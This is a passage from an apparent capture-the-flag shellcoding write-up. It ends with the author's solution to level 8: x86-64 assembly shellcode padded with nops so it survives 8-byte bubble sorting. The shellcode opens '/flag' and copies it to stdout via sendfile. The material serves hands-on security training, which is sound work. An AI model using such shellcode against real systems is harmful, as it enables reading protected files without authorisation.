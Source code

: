 ```assembly
  movq $1000, %r10
  syscall

flag: .asciz "/flag"
```

#### 8
This one is tough, our code is going to be sorted using bubble sort at each  8 bytes. We can just add nops in our code. I think that is hardly the best solution, but here is mine:

```assembly
#
# 1.s
# Shell
#
# Created by Yigit Colakoglu on 09/26/21.
# Copyright 2021. Yigit Colakoglu. All rights reserved.
#

.global _start


_start:
  nop
  movq $2, %rax  # open()
  nop
  movq $0, %rsi
  nop
  movq $0, %rdx
  nop
  leaq flag(%rip), %rdi # RIP relative addressing
  nop
  nop
  nop
  nop
  nop
  nop
  syscall

  nop
  nop
  nop
  nop
  nop
  nop
  nop
  pushq %rax
  nop
  nop
  nop
  nop
  nop
  nop
  nop
  popq %rsi
  movq $40, %rax # syscall sendfile
  nop
  movq $1, %rdi
  nop
  movq $0, %rdx
  nop
  movq $1000, %r10
  nop
  syscall
```